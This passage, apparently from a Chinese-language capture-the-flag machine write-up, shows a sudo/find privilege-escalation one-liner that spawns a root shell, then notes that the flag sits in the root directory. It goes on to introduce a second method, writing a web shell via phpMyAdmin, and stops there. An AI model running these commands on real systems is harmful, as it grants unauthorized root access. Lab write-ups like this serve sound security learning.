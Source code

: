 

```
sudo -u root find . -exec /bin/bash \; -quit
```

find提权，其他提权方式详情请看no_name靶机全解



然后也是进到root目录下就能看到flag了

![image-20250911120843672](./../../_media2/image-20250911120843672.png)





## 做法二

从phpmyadmin入手，进行写shell